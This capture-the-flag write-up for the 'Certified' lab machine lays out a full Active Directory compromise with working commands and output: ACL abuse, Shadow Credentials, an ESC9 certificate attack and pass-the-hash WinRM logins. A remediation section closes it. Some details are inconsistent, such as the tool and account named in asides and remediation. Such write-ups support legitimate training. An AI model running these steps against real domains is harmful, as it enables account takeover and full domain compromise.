

<nav class="language-switcher" aria-label="Article language">
  <a href="{{ '/posts/certified/' | relative_url }}" lang="it">IT</a>
  <span class="is-current" aria-current="page">EN</span>
</nav>


## 🎯 Executive Summary

**Certified** is a medium-difficulty Windows machine built around an assumed-breach scenario, where credentials for a low-privileged user are provided.  
( **judith.mader** : **judith09** )

| Attribute | Value |
|:----------------|:------------------------------------------------------------------------------------------------------------------------------|
| **OS:**         | Windows
| **Difficulty:** | Medium
| **MITRE TTPs:** |   |

> Objective
>
> **Initial Access (Foothold):** The first objective is to compromise *management_svc*. ACL enumeration shows that *judith.mader* has `WriteOwner` over the Management group, which in turn has `GenericWrite` over *management_svc*. This chain ultimately enables WinRM authentication to the target.
> **Privilege Escalation:** Administrator access requires abusing Active Directory Certificate Services (AD CS), specifically Shadow Credentials and ESC9. The attack changes the UPN of *ca_operator* to “Administrator”, requests a certificate for that UPN, and then authenticates as a Domain Admin.



------------------------------------------------------------------------

## Reconnaissance

### Enumeration

Network scan

```
sudo nmap --open -v T4 -A -Pn 10.129.231.186
 
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-01-19 23:47:23Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-01-19T23:48:50+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED
| Issuer: commonName=certified-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-06-11T21:05:29
| Not valid after:  2105-05-23T21:05:29
| MD5:     ac8a 4187 4d19 237f 7cfa de61 b5b2 941f
| SHA-1:   85f1 ada4 c000 4cd3 13de d1c2 f3c6 58f7 7134 d397
|_SHA-256: efbd f880 f25e 9059 7d06 867b ba6c 7050 277e 6fa7 aa81 5bee 9b4c bf63 358d e0b8
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED
| Issuer: commonName=certified-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-06-11T21:05:29
| Not valid after:  2105-05-23T21:05:29
| MD5:     ac8a 4187 4d19 237f 7cfa de61 b5b2 941f
| SHA-1:   85f1 ada4 c000 4cd3 13de d1c2 f3c6 58f7 7134 d397
|_SHA-256: efbd f880 f25e 9059 7d06 867b ba6c 7050 277e 6fa7 aa81 5bee 9b4c bf63 358d e0b8
|_ssl-date: 2026-01-19T23:48:49+00:00; +7h00m01s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-01-19T23:48:51+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED
| Issuer: commonName=certified-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-06-11T21:05:29
| Not valid after:  2105-05-23T21:05:29
| MD5:     ac8a 4187 4d19 237f 7cfa de61 b5b2 941f
| SHA-1:   85f1 ada4 c000 4cd3 13de d1c2 f3c6 58f7 7134 d397
|_SHA-256: efbd f880 f25e 9059 7d06 867b ba6c 7050 277e 6fa7 aa81 5bee 9b4c bf63 358d e0b8
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-01-19T23:48:49+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED
| Issuer: commonName=certified-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-06-11T21:05:29
| Not valid after:  2105-05-23T21:05:29
| MD5:     ac8a 4187 4d19 237f 7cfa de61 b5b2 941f
| SHA-1:   85f1 ada4 c000 4cd3 13de d1c2 f3c6 58f7 7134 d397
|_SHA-256: efbd f880 f25e 9059 7d06 867b ba6c 7050 277e 6fa7 aa81 5bee 9b4c bf63 358d e0b8
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
 
Host script results:
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s
| smb2-time:
|   date: 2026-01-19T23:48:13
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
 
TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   63.72 ms 10.10.14.1
2   66.87 ms 10.129.231.186
```

The initial analysis with `nmap` identifies the host **10.129.231.186** as the Domain Controller **DC01** the domain `certified.htb`.

- **AD services:** The standard services of Active Directory: DNS (53), Kerberos (88), RPC (135), LDAP (389/3268) and LDAPS (636/3269).
- **ADCS:** LDAP script output reveals the presence of a Certification Authority called `certified-DC01-CA`, fundamental clue for possible attack vectors on certificates.
- **Remote access:** They're open SMB (445) and WinRM (5985).

------------------------------------------------------------------------

```
 nxc smb 10.129.231.186 -u 'judith.mader' -p 'judith09'
SMB         10.129.231.186  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.231.186  445    DC01             [+] certified.htb\judith.mader:judith09
 
❯ nxc smb 10.129.231.186 -u 'judith.mader' -p 'judith09' --shares
SMB         10.129.231.186  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.231.186  445    DC01             [+] certified.htb\judith.mader:judith09
SMB         10.129.231.186  445    DC01             [*] Enumerated shares
SMB         10.129.231.186  445    DC01             Share           Permissions     Remark
SMB         10.129.231.186  445    DC01             -----           -----------     ------
SMB         10.129.231.186  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.231.186  445    DC01             C$                              Default share
SMB         10.129.231.186  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.231.186  445    DC01             NETLOGON        READ            Logon server share
SMB         10.129.231.186  445    DC01             SYSVOL          READ            Logon server share
```

```
❯ nxc winrm 10.129.231.186 -u 'judith.mader' -p 'judith09'
WINRM       10.129.231.186  5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certified.htb)
WINRM       10.129.231.186  5985   DC01             [-] certified.htb\judith.mader:judith09
```

**Credentials and Access**

Having user credentials `judith.mader`, we verify access permits to the services exposed.

- **SMB:** Authentication is successful. `NetExec` confirms that the credentials are valid, but the user has access only in reading to the default share (`IPC$`, `NETLOGON`, `SYSVOL`).
- **WinRM:** Remote connection attempt fails; the user is not part of the group *Remote Management Users*.

------------------------------------------------------------------------

**Analysis Active Directory** (BloodHound)

The enumeration of domain ACLs through BloodHound highlights an interesting compromise path that starts with a controlled user.


The analysis shows that `judith.mader` has critical privileges on the group **Management** (or can acquire them), allowing the change of members or the owner of the group itself. This control will be the starting point for the escalation of privileges.

------------------------------------------------------------------------

## Foothold

### Exploitation & Lateral Movement

**Abuse of AD Permissions** ACL Abuse

The analysis BloodHound has revealed that `judith.mader` possesses the necessary privileges to manipulate the group **Management**. We proceed by modifying the ACLs to add to the group and obtain additional access.

1.  **Holder (Ownership):** We use `impacket-owneredit` to assign the property of the group object **Management** to the user `judith.mader`.

```
impacket-owneredit -action write -new-owner 'judith.mader' -target management 'certified/judith.mader':'judith09' -dc-ip 10.129.231.186
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
 
[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=certified,DC=htb
[*] OwnerSid modified successfully!
```

2.  **Edit DACL:** With `impacket-dacledit` we guarantee permission `WriteMembers` on the object.

```
impacket-dacledit -action 'write' -rights 'WriteMembers' -principal judith.mader -target Management 'certified'/'judith.mader':'judith09' -dc-ip 10.129.231.186
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
 
[*] DACL backed up to dacledit-20260119-182546.bak
[*] DACL modified successfully!
```

3.  **Added to the group:** Finally, through `bloodyAD`, we add our user to the group **Management**. A verification with `net rpc` confirm that now `judith.mader` is an effective member.

```
bloodyAD --host dc01.certified.htb -d certified.htb -u 'judith.mader' -p 'judith09' add groupMember 'Management' 'judith.mader'
[+] judith.mader added to Management
 
net rpc group members Management -U "certified.htb"/"judith.mader"%"judith09" -S 10.129.231.186
CERTIFIED\judith.mader
CERTIFIED\management_svc
```

------------------------------------------------------------------------

### Shadow Credentials Attack

Group membership **Management** provides us with control over the service user **management_svc**. To compromise this account without changing the password (noise and destructive operation), we execute an attack **Shadow Credentials**.

This technique abuses the attribute `msDS-KeyCredentialLink` to inject a public key, allowing certificate authentication and obtaining a TGT Kerberos.

We carry out the attack with **Certipy** (using `faketime` to correct the +7h time misalignment detected by nmap):

1.  Certipy injects a *Key Credential* in the account `management_svc`.
2.  Authenticate with the certificate generated.
3.  Recovers account NT (`a091...`).
4.  Restores the original state by removing the injected key.

```
faketime -f +7h certipy shadow auto -username judith.mader@certified.htb -password judith09 -account management_svc -target certified.htb -dc-ip 10.129.231.186
Certipy v5.0.4 - by Oliver Lyak (ly4k)
 
[*] Targeting user 'management_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '0551d1008f2b4136a3b1cb276ebf30a1'
[*] Adding Key Credential with device ID '0551d1008f2b4136a3b1cb276ebf30a1' to the Key Credentials for 'management_svc'
[*] Successfully added Key Credential with device ID '0551d1008f2b4136a3b1cb276ebf30a1' to the Key Credentials for 'management_svc'
[*] Authenticating as 'management_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'management_svc@certified.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'management_svc.ccache'
[*] Wrote credential cache to 'management_svc.ccache'
[*] Trying to retrieve NT hash for 'management_svc'
[*] Restoring the old Key Credentials for 'management_svc'
[*] Successfully restored the old Key Credentials for 'management_svc'
[*] NT hash for 'management_svc': a091c1832bcdd4677c28b5a6a1295584
```

**Shadow Credentials** is a technique of attack to Active Directory that allows you to **impersonate an account without knowing the password**, abuse of attribute `msDS-KeyCredentialLink`.

If an attacker has written permissions on this attribute (direct or via ACL/groups), it may **add your own public key** to the target account. Active Directory will therefore accept such key as **valid authentication method**, allowing the obtainment of a **TGT Kerberos** via certificate.

This technique:

- does not change your account password
- is not visible at the logging level
- is often used as **Pivot towards ADCS or Domain Admin**

> In our case, the abuse of Shadow Credentials allowed to obtain the **NT hash** of the account `ca_operator`, enabling subsequent escalation via Active Directory Certificate Services.

------------------------------------------------------------------------

### Access management_svc

With the recovered hash, we get a shell WinRM stable on the target host and we recover the first flag.

- **User:** `management_svc`
- **Flag:** `user.txt`

```
evil-winrm -i 10.129.231.186 -u 'management_svc' -H 'a091c1832bcdd4677c28b5a6a1295584'
 
Evil-WinRM shell v3.9
 
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\management_svc\Documents> cd "C:/Users/management_svc/Desktop/"
*Evil-WinRM* PS C:\Users\management_svc\Desktop> ls
 
 
    Directory: C:\Users\management_svc\Desktop
 
 
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        1/19/2026   3:19 PM             34 user.txt
```

------------------------------------------------------------------------

## Privilege Escalation (AD CS ESC9)

### Pivot towards ca_operator

The internal enumeration with BloodHound shows that the user `management_svc` has account control `ca_operator`. We use the technique again **Shadow Credentials** to obtain the hash NTLM of this user necessary to interact with the Certification Authority.


```
faketime -f +7h certipy shadow auto -username management_svc@certified.htb -hashes :a091c1832bcdd4677c28b5a6a1295584 -account ca_operator -target certified.htb -dc-ip 10.129.231.186
Certipy v5.0.4 - by Oliver Lyak (ly4k)
 
[*] Targeting user 'ca_operator'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '55c1275fc4664649ae673cd73c90dc17'
[*] Adding Key Credential with device ID '55c1275fc4664649ae673cd73c90dc17' to the Key Credentials for 'ca_operator'
[*] Successfully added Key Credential with device ID '55c1275fc4664649ae673cd73c90dc17' to the Key Credentials for 'ca_operator'
[*] Authenticating as 'ca_operator' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'ca_operator@certified.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ca_operator.ccache'
[*] Wrote credential cache to 'ca_operator.ccache'
[*] Trying to retrieve NT hash for 'ca_operator'
[*] Restoring the old Key Credentials for 'ca_operator'
[*] Successfully restored the old Key Credentials for 'ca_operator'
[*] NT hash for 'ca_operator': b4b86f45c6018f1b664f70805f45d8f2
```

------------------------------------------------------------------------

### Vulnerability identification ESC9

Certificate template analysis with `certipy find` highlight the template `CertifiedAuthentication` vulnerable to **ESC9**. Critical conditions are:

- **Enrollment permits:** The user `operator ca` (ca_operator) has enrollment rights.
- **Lack of Security Extension:** The template has no security extension (`msPKI-Certificate-Security-Extension`), therefore the certificate does not incorporate the applicant's SID.
- **Identity based on UPN:** The flag `SubjectAltRequireUpn` imposes that the identity of the certificate is mapped on `userPrincipalName` of the account Active Directory.

This configuration allows anyone who can change their own UPN (or that of a controlled user) to impersonate another account, including Administrator.

```
certipy find -vulnerable -u ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 -dc-ip 10.129.231.186 -stdout
Certipy v5.0.4 - by Oliver Lyak (ly4k)
 
[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 15 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'certified-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'certified-DC01-CA'
[*] Checking web enrollment for CA 'certified-DC01-CA' @ 'DC01.certified.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA
    DNS Name                            : DC01.certified.htb
    Certificate Subject                 : CN=certified-DC01-CA, DC=certified, DC=htb
    Certificate Serial Number           : 36472F2C180FBB9B4983AD4D60CD5A9D
    Certificate Validity Start          : 2024-05-13 15:33:41+00:00
    Certificate Validity End            : 2124-05-13 15:43:41+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : CERTIFIED.HTB\Administrators
      Access Rights
        ManageCa                        : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        ManageCertificates              : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Enroll                          : CERTIFIED.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
    Certificate Authorities             : certified-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireUpn
                                          SubjectRequireDirectoryPath
    Enrollment Flag                     : PublishToDs
                                          AutoEnrollment
                                          NoSecurityExtension
    Extended Key Usage                  : Server Authentication
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-05-13T15:48:52+00:00
    Template Last Modified              : 2024-05-13T15:55:20+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFIED.HTB\operator ca
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFIED.HTB\Administrator
        Full Control Principals         : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Write Owner Principals          : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Write Dacl Principals           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Write Property Enroll           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
    [+] User Enrollable Principals      : CERTIFIED.HTB\operator ca
    [!] Vulnerabilities
      ESC9                              : Template has no security extension.
    [*] Remarks
      ESC9                              : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
```

**Execution of Attack**

For `management_svc` has writing permissions on attributes of `ca_operator`, we do the following steps:

1.  **Edit UPN:** Let's change the `userPrincipalName` of `ca_operator` in `Administrator`.

```
certipy account update -u management_svc -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator -dc-ip 10.129.231.186
Certipy v5.0.4 - by Oliver Lyak (ly4k)
 
[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator
[*] Successfully updated 'ca_operator'
```

2.  **Certificate Request:** Request a certificate using the `CertifiedAuthentication` template. The CA reads the modified UPN and issues a valid certificate for “Administrator”.

```
certipy req -u ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.129.231.186
Certipy v5.0.4 - by Oliver Lyak (ly4k)
 
[*] Requesting certificate via RPC
[*] Request ID is 5
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

3.  **Restoration:** Restore the original UPN (`ca_operator@certified.htb`) to reduce artifacts and preserve account consistency.

```
certipy account update -u management_svc -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb -dc-ip 10.129.231.186
Certipy v5.0.4 - by Oliver Lyak (ly4k)
 
[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator'
```

4.  **Authentication:** We use the certificate `administrator.pfx` obtained to authenticate us via Kerberos (Unlocking) and recover the account’s hash NTLM **Administrator**.

```
faketime -f +7h certipy auth -pfx administrator.pfx -dc-ip 10.129.231.186 -domain certified.htb
Certipy v5.0.4 - by Oliver Lyak (ly4k)
 
[*] Certificate identities:
[*]     SAN UPN: 'Administrator'
[*] Using principal: 'administrator@certified.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```

**ESC9** is a vulnerability to Active Directory Certificate Services that occurs when a certified template does not include **Security Extension**. In this configuration, certificates issued are not related to **Account SID**, but are based solely on **UPN** for identity.

If an attacker has permissions **Enroll** on a vulnerable template and can edit **UPN** of the account, you can request a certificate by impersonating another user, including **Administrator**. The certificate obtained can then be used to authenticate via Kerberos and obtain privileges of **Domain Admin**.

In the context of this machine, ESC9 a valid certificate for the account Administrator, completing the escalation of privileges.

------------------------------------------------------------------------

### Administrator Access

With the administrator’s hash, let’s go `evil-winrm` and we conquer the domain.

- **User:** `Administrator`
- **Flag:** `root.txt`

```
evil-winrm -i 10.129.231.186 -u 'Administrator' -H '0d5b49608bbce1751f708748f67e2d34'
 
Evil-WinRM shell v3.9
 
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd "C:/Users/Administrator/Desktop/"
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls
 
 
    Directory: C:\Users\Administrator\Desktop
 
 
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        1/19/2026   3:19 PM             34 root.txt
```

------------------------------------------------------------------------

## 🛡️ Remediation & Defense

The entire attack chain on **Certified** is based on poor hygiene of ACLs Active Directory and insecure configurations of certificate services (ADCS). Here are the priority corrective actions.

> Fix Critical: Mitigation ADCS (ESC9/UPN Spoofing)
>
> The final attack takes advantage of the possibility to change its own `userPrincipalName` (UPN) to deceive the CA and get a certificate as Administrator.
>
> **Corrective action:**
>
> 1.  **Enable Strong Certificate Binding:** Implement Microsoft patch **KB5014754**. This imposes a strong mapping (Strong Mapping) between the certificate and the user based on the SID, making the change makeup useless UPN.
> 2.  **Template Review:** If the template does not require compatibility with legacy clients, remove the flag `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` if present or restrict enrollment permissions to administrators only.

> ACL Hardening & Monitoring
>
> To prevent the initial lateral movement, it is necessary to intervene upstream:
>
> 1.  **Principle of Privilegio Minimo (PoLP):** The user `judith.mader` should not have permission **WriteOwner** on a privileged group as `Management`. The group `Management` must not have allowed **GenericWrite** or **GenericAll** on service accounts (`management_svc`) or on CA operators (`ca_operator`).  
>     ***Solution:** Perform periodic audits with tools such as **PingCastle** or **BloodHound** to identify and remove dangerous trust relationships.*  
> 2.  **Detection Shadow Credentials:** The attack used `pywhisker` to inject Key Credentials. **Detection:** *Monitoring changes to the attribute `msDS-KeyCredentialLink` on user objects and computers.*  
>     **Event ID:** *Configure alert for the Windows Event **4742** (Computer Account Changed) or **4738** (User Account Changed) when this specific attribute is populated.*  
> 3.  **Critical Account Protection:** Accounts `ca_operator` should be protected through the group **Protected Users** or marked as “Account is sensitive and cannot be delegated” to limit Kerberos attack surfaces.
